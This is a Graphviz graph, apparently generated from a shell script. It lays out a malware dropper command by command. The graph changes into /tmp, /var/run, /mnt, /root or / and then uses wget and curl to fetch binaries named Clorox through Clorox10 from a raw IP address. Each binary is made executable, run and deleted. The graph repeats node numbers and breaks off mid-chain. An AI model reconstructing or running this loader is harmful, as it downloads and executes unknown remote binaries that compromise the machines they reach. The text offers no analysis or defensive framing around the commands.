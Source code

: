 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://69.36.182.3/Clorox "];
10 -> 12 [label=";,"];
12 [label="curl -O http://69.36.182.3/Clorox "];
12 -> 14 [label=";,"];
14 [label="chmod +x Clorox "];
14 -> 16 [label=";,"];
16 [label="./Clorox "];
16 -> 18 [label=";,"];
18 [label="rm -rf Clorox "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://69.36.182.3/Clorox1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://69.36.182.3/Clorox1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x Clorox1 "];
34 -> 36 [label=";,"];
36 [label="./Clorox1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf Clorox1 "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://69.36.182.3/Clorox2 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://69.36.182.3/Clorox2 "];
52 -> 54 [label=";,"];
54 [label="chmod +x Clorox2 "];
54 -> 56 [label=";,"];
56 [label="./Clorox2 "];
56 -> 58 [label=";,"];
58 [label="rm -rf Clorox2 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://69.36.182.3/Clorox3 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://69.36.182.3/Clorox3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x Clorox3 "];
74 -> 76 [label=";,"];
76 [label="./Clorox3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf Clorox3 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://69.36.182.3/Clorox4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://69.36.182.3/Clorox4 "];
92 -> 94 [label=";,"];
94 [label="chmod +x Clorox4 "];
94 -> 96 [label=";,"];
96 [label="./Clorox4 "];
96 -> 98 [label=";,"];
98 [label="rm -rf Clorox4 "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://69.36.182.3/Clorox5 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://69.36.182.3/Clorox5 "];
112 -> 114 [label=";,"];
114 [label="chmod +x Clorox5 "];
114 -> 116 [label=";,"];
116 [label="./Clorox5 "];
116 -> 118 [label=";,"];
118 [label="rm -rf Clorox5 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://69.36.182.3/Clorox6 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://69.36.182.3/Clorox6 "];
132 -> 134 [label=";,"];
134 [label="chmod +x Clorox6 "];
134 -> 136 [label=";,"];
136 [label="./Clorox6 "];
136 -> 138 [label=";,"];
138 [label="rm -rf Clorox6 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://69.36.182.3/Clorox7 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://69.36.182.3/Clorox7 "];
152 -> 154 [label=";,"];
154 [label="chmod +x Clorox7 "];
154 -> 156 [label=";,"];
156 [label="./Clorox7 "];
156 -> 158 [label=";,"];
158 [label="rm -rf Clorox7 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://69.36.182.3/Clorox8 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://69.36.182.3/Clorox8 "];
172 -> 174 [label=";,"];
174 [label="chmod +x Clorox8 "];
174 -> 176 [label=";,"];
176 [label="./Clorox8 "];
176 -> 178 [label=";,"];
178 [label="rm -rf Clorox8 "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://69.36.182.3/Clorox9 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://69.36.182.3/Clorox9 "];
192 -> 194 [label=";,"];
194 [label="chmod +x Clorox9 "];
194 -> 196 [label=";,"];
196 [label="./Clorox9 "];
196 -> 198 [label=";,"];
198 [label="rm -rf Clorox9 "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://69.36.182.3/Clorox10 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://69.36.182.3/Clorox10 "];
212 -> 214 [label=";,"];
214 [label="chmod +x Clorox10 "];
214 -> 216 [label=";,"];
216 [label="./Clorox10 "];
216 -> 217 [label=";,"];
}
